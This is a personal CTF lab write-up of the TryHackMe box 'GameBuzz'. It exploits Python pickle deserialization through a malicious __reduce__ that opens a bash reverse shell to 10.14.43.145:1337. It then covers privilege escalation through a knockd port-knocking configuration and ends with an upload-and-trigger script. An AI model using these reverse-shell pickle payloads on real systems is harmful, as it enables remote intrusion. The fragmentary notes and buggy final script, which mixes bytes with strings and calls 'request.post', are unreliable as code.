

# GameBuzz Helped-Through

Name: GameBuzz
Date:  
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box - combine requests

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[Python-Playground-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.



This is just the message of uplaod


## Exploit

Where did your upload go?

Al fixates on this:


A .pkl - PKL file is a file created by pickle, a Python module that enabless objects to be serialized to files on disk and deserialized back into into the program at runtime [Ref](https://fileinfo.com/extension/pkl)


To un-pickle the data you can: [Ref](https://stackoverflow.com/questions/24906126/how-to-unpack-pkl-file)
```python
import pickle


with open('serialized.pkl', 'rb') as f:
    data = pickle.load(f)
```

Requesting a review we get a pickled object


Before you do `pickle.load()` there is no way to know what are you deserializing 

Alh4zr3d's pickle exploit code - improved by me
```python
import pickle, base64, os

class RCE:
# Initialize the object creation with reduce method
    def __reduce__(self):
        IP = "10.10.10.10"
        PORT = 1337
        cmd = f"/bin/bash -c 'exec bash -i &>/dev/tcp/{IP}/{PORT} <&1'"
        # OS system needs to return tuple
        return os.system, (cmd,)


if __name__ == "__main__":
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
```

Dumping to a file version of the expoit
```python
import pickle, base64, os


class RCE:
    def __reduce__(self):
        cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/10.14.43.145/1337 <&1'")
        return os.system, (cmd,)


if __name__ == "__main__":
    with open('badpickle.pkl', 'wb') as f:
        pickle.dump(RCE(),f)
    # Test with:
    #with open('badpickle.pkl', 'rb') as f:
    #    data = pickle.load(f)

```


## Foothold


We have lxc


Root is difently checking Lxc related clust stuff


## PrivEsc

I do not think I have had one of these:


Change of password


It is just the hash for password


Wow Chat solves my most hated CTFy thing that does not exist in the real world -  port knock
```bash
/etc/knockd.conf
/var/log/knockd.log
```

knockd.conf
```bash
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJECT
        tcpflags    = syn
```

I would not have got this.

```bash
nc incognito.com 5020
nc incognito.com 6120
nc incognito.com 7340
```


` Password or dc647eb65e6711e155375218212b3964`
its the hash...


Al thinks port knocking and security by obsurity is underrated. `lsattr` is a known command off the of my dome. We can write to the .conf, but `getfacl` get the file ACL get the file ACL.


Edit


```bash
sudo /etc/init.d/knockd restart
```

```bash
nc incognito.com 69
nc incognito.com 15
nc incognito.com 1337
```


## Beyond Root

In conclusion I am beating Al to things, but learnt alot about something I have vaguely remember doing. I would not have got the port knocking.vim 

```python
import pickle
import base64
import os
import requests


class RCE:
    def __reduce__(self):
        cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/10.14.43.145/1337 <&1'")
        return os.system, (cmd,)


if __name__ == "__main__":
    upload_url = 'http://dev.incognito.com/secret/upload/script.php'
    upload_headers = {"Origin": "http://dev.incognito.com", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryhRH7hk3w4JzAzsFj"}
    rshell_url = 'http://incognito.com/fetch'
    rshell_headers = {"Host":"incognito.com", "X-Requested-With": "XMLHttpRequest", "Content-Type": "application/json", "Origin": "http://incognito.com", "Referer": "http://incognito.com/"}
    bad_pickle_obj = {"object":"/var/upload/badpickle.pkl"}
    boundary = "----WebKitFormBoundaryhRH7hk3w4JzAzsFj"

    with open('badpickle.pkl', 'wb') as f:
        pickle.dump(RCE(),f)

    file = open("badpickle.pkl", "rb")

    body = "--" + boundary + "\r\n"
    body += "Content-Disposition: form-data; name=\"the_file\"; filename=\"badpickle.pkl\"\r\n"
    body += "Content-Type: application/octet-stream\r\n\r\n"
    body += file.read() + "\r\n"
    body += "--" + boundary + "--\r\n"
    file.close()

    try:
        upload_response = requests.post(upload_url, headers=upload_headers, data=body)
        if upload_response.status_code == 200:
            print("File uploaded successfully")
        else:
            print("File upload failed")
    except requests.exceptions.RequestException as e:
        print(e)

    get_shell_response = request.post(rshell_url, upload_headers,data=body)
    exit()
```